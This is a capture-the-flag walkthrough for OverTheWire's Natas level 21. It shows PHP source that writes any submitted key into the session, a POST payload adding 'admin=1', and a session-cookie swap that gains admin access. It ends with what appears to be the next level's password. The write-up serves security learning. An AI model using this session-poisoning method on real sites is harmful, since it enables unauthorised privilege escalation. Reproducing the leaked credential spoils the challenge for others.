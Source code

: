 
# Solution
There is another site:
```html
**Note: this website is colocated with [http://natas21-experimenter.natas.labs.overthewire.org](http://natas21-experimenter.natas.labs.overthewire.org/)**
```

Same with Level20, The site is used to update color and store the values in an array in the session file:
```php
<?php  
  
session_start();  
  
// if update was submitted, store it  
if(array_key_exists("submit", $_REQUEST)) {  
    foreach($_REQUEST as $key => $val) {    $_SESSION[$key] = $val;  
    }  
}  
  
if(array_key_exists("debug", $_GET)) {  
    print "[DEBUG] Session contents:<br>";    print_r($_SESSION);  
}  
  
// only allow these keys  
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");  
$form = "";  
  
$form .= '<form action="index.php" method="POST">';  
foreach($validkeys as $key => $defval) {    $val = $defval;  
    if(array_key_exists($key, $_SESSION)) {    $val = $_SESSION[$key];  
    } else {    $_SESSION[$key] = $val;  
    }    $form .= "$key: <input name='$key' value='$val' /><br>";  
}  
$form .= '<input type="submit" name="submit" value="Update" />';  
$form .= '</form>';  
  
$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";  
$example = "<div style='$style'>Hello world!</div>";  
  
?>
```

```
[DEBUG] Session contents:  
Array ( [align] => center [fontsize] => 100% [bgcolor] => yellow )
```

However, there is only restriction to what value goes with what key. Not what key can be added.

Looking at the main page's code, we see:
```php
  
<?php  
  
function print_credentials() { /* {{{ */    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {  
    print "You are an admin. The credentials for the next level are:<br>";  
    print "<pre>Username: natas22\n";  
    print "Password: <censored></pre>";  
    } else {  
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";  
    }  
}  
/* }}} */  
  
session_start();  
print_credentials();  
  
?>
```

Meaning, we just need to add `admin=1` to the payload:
```
align=center&fontsize=100%25&okokok=yellow&admin=1&submit=Update
```

```
[DEBUG] Session contents:<br>Array
(
    [debug] => 
    [align] => center
    [fontsize] => 100%
    [okokok] => yellow
    [admin] => 1
    [submit] => Update
)
```

On the main site, we change the cookie to match the `experimenter`'s so that it loads the same array we just modified.

```
d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz
```